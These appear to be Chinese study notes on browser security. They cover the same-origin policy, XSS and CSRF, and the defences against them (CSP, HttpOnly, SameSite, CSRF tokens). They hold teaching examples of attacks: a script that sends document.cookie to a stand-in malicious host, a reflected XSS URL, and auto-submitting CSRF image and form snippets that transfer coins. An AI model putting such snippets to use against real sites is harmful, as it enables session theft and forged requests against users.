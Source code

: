 ## 页面安全

浏览器安全可分为：

### Web页面安全

如果页面没有安全策略，会导致很多隐私数据被篡改和被获取。

##### 解决：

同源：当两个`URL`的协议、域名、端口都相同时

只有**相同源之间默认是可以相互访问和操作`DOM`的**，不同源之间的访问会受到**同源策略**的制约

同源策略有(DOM\Web数据\网络)：

- [ ] <u>DOM层面：限制不同源的JavaScript脚本对当前DOM对象读写操作</u>

  当两个页面**同源**，可以通过`opener`指向父页面(从一个页面[父]打开另一个页面[子])的`window`对象，可以通过其操作父页面的DOM。

  ```javascript
  {
          let pdom = opener.document; 		
          pdom.body.style.display = "none";//使父页面隐藏
  }
  ```

- [ ] <u>数据层面:不同源的站点不能通过`opener.document.cookie`等读取到当前站点的`Cookie/IndexDB/localStorage`</u>

  同源

  ![同源策略测试读取cookie](C:\Users\Admin\Desktop\浏览器工作原理小册\image\同源策略测试读取cookie.png)

- [ ] <u>网络层面:同源策略限制以`XMLHttpRequest`等方式将数据发送个不同源站点。(只能跨域)</u>

#### 安全与便利性的权衡

由于不同源完全隔绝会带来很多不便利性，所以会让出一些安全性来满足灵活性。(让出的安全性会带来XSS攻击和CSRF攻击等)

- [ ] <u>页面可嵌入第三方资源(可任意引用外部文件)</u>[数据层面]

  但由于允许嵌入外部文件，当浏览器的首页被恶意劫持时，HTML文件会被插入恶意脚本，从而修改用户操作，或者获取Cookie等信息。(`XSS`攻击)

  ```javascript
  function onClick(){ 
  let url = `http://malicious.com?cookie = ${document.cookie}` 
  open(url) ;
  }
  
  onClick();//当点击时会读取cookie信息并发送到恶意服务器
  ```

  浏览器针对`XSS`攻击，引入了内容安全策略(`CSP`),其思想是让服务器决定浏览器能够加载哪些资源，决定是否执行内联`JavaScript`代码。

- [ ] <u>跨域资源共享(`CORS`)和跨文档消息机制</u>[网络层面/DOM层面]

  跨域资源共享:可以进行跨域访问控制，跨域传输数据(XSS攻击)

  跨文档消息机制:可以通过`window.postMessage`的js接口来和不同源的`DOM`通信。

#### XSS(Cross Site Scripting)攻击

为了和`CSS`区分开，故简称`XSS`(跨站脚本)，即黑客往`HTML`文件或`DOM`中**注入恶意脚本**，从而在用户浏览页面时通过其攻击。

##### 注入方式:

- 存储型XSS攻击

  - 黑客利用站点漏洞将恶意XSS代码提交到网站的数据库中
  - 用户向网站请求带恶意脚本的页面
  - 用户浏览页面，恶意脚本获取用户Cookie等信息

- 反射性XSS攻击

  - 用户发送给网站的请求(点击一些恶意链接)包含恶意脚本

  - 随后网站把恶意脚本返回给用户

  - 恶意脚本被执行

    ```
    //点击这个链接时，服务器收到请求，恶意代码被反射给浏览器端，并执行攻击。
    http://localhost:3000/?xss=<script>alert('你被xss攻击了')</script>
    ```

    比如一些QQ群和邮件中的恶意链接。Web服务器不会存储反射型XSS攻击的恶意脚本，但储存型XSS会。

- 基于DOM的XSS攻击(注入过程与服务器无关)

  - 黑客通过手段将恶意脚本注入页面(比如网络劫持)
  - 在Web资源传输过程或用户使用页面过程中修改Web页面的数据。

##### XSS攻击解决：

任何类型的`XSS`攻击都是先往浏览器注入恶意脚本，然后通过恶意脚本将用户信息发送到恶意服务器上。

- 服务器对输入脚本过滤或转码

  ```JavaScript
  code:<script>alert('你被xss攻击了')</script>
  //过滤后
  code:
  //转码后
  code:&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
  ```

- 充分利用CSP(内容安全策略)

  - 限制下载其他域下的资源文件
  - 禁止向第三方提交数据
  - 禁止执行内联脚本和未授权的脚本
  - 提供上报机制，尽快发现xss攻击

- 使用`HttpOnly`属性

  由于大多数`XSS`攻击都是用来盗用`Cookie`，所以服务器可以通过HTTP响应头设置`HttpOnly`来保护`Cookie`。设置后不能通过`document.cookie`来获取数据

#### CSRF攻击(Cross-site request forgery)

称为跨站请求伪造，指黑客利用用户的登录状态，通过第三方站点获取用户信息等。

##### 攻击方式:

- 自动发起`GET`请求

  ```html
  <!--在第三方网站中，通过img标签当页面被加载时，浏览器会自动发起请求-->
  <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  ```

- 自动发起`POST`请求

  由于有些服务器是使用`POST`方法的，所以有些站点会伪造`POST`请求。

  ```html
  <!--通过隐藏表单，自动通过POST方式提交表单-->
  <h1>⿊客的站点：CSRF攻击演⽰</h1> 
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" /> 
      <input type="hidden" name="number" value="100" /> 
  </form>
  <script> 
  	document.getElementById('hacker-form').submit(); 
  </script>
  ```

- 引诱用户点击黑客站点的链接，发起请求(`POST/GET`)

- CSRF攻击不需要注入恶意代码到用户页面，只需要利用服务器漏洞及用户登录状态来实施攻击。

##### CSRF攻击防止:

1. 由于黑客不能获取到用户信息， 只能通过服务器的漏洞，发送请求攻击，所以要让服务器避免攻击就能解决

2. 利用`Cookie`的`SameSite`属性

   **通过`SameSite`属性可以做到在第三方站点上禁止发送Cookie，而在同一站点允许正常发送Cookie。**

   在`HTTP`响应头中，通过`set-cookie`设置`Cookie`时，带上`SameSite`选项

   - [ ] `Strict`:当`SameSite`值为`Strict`时，会完全禁止第三方`Cookie`
   - [ ] `Lax`:从第三方站点链接打开或`Get`提交可携带，`POST`不行
   - [ ] `None`:都可以发送`Cookie`

3. 验证请求的来源站点(服务端)

   `HTTP`的`Referer`和`Origin`属性

   - [ ] Referer是HTTP请求头的一个字段，记录了HTTP的来源地址，但由于有时不能暴露URL给服务器，所以有时不适用。
   - [ ] Origin:只包含域名信息，没有详细的URL路径(优先判断)

4. `CSRF Token`

   - [ ] 浏览器发起请求时，服务器生成`CSRF Token`字符串，并将其植入返回的页面
   - [ ] 在浏览器发起转账等请求时，会带上`CSRF Token`，服务器再进行验证是否合法。

#### 浏览器系统安全

#### 浏览器网络安全

